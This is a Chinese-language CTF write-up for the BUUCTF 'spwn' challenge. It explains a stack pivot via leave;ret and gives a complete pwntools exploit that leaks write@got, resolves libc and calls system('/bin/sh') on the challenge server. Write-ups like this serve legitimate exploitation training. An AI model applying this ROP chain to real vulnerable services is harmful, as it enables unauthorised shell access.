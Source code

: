 所以说在第一个输入点输入

```python
payload=p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
```

对于leave；ret汇编指令的解读

```assembly
leave:
mov rsp,rbp
pop rbp

ret:
pop rip
```

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955608.png" alt="image-20220321095445727" style="zoom:80%;" />

在第二个输入点写入payload

```python
payload=junk+p32(s-4)+p32(ret)
```

s-4是因为pop rbp后sp会+4，所以先减4以保证sp最后在栈顶，继而可以打印出write的got表

exp

```python
from pwn import*
from LibcSearcher import*

context(arch='i386',os='linux',log_level='debug')
io=remote('node4.buuoj.cn',27157)
#io=process('/home/vi0let/文档/pwn/BUUCTF/spwn')
elf=ELF('/home/vi0let/文档/pwn/BUUCTF/spwn')

junk=b'a'*(0x18)
main=elf.sym['main']
s=0x0804A300
write_plt=elf.plt['write']
write_got=elf.got['write']
ret=0x08048408

payload=p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
io.sendlineafter('name?',payload)

payload=junk+p32(s-4)+p32(ret)
io.sendafter('say?',payload)

write_addr=u32(io.recv(4))	
print(hex(write_addr))

libc=LibcSearcher('write',write_addr)
base=write_addr-libc.dump('write')
system=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')

payload=p32(system)+p32(0)+p32(bin_sh)
io.sendafter('name?',payload)

payload=junk+p32(s-4)+p32(ret)
io.sendafter('say?',payload)
io.interactive()
```
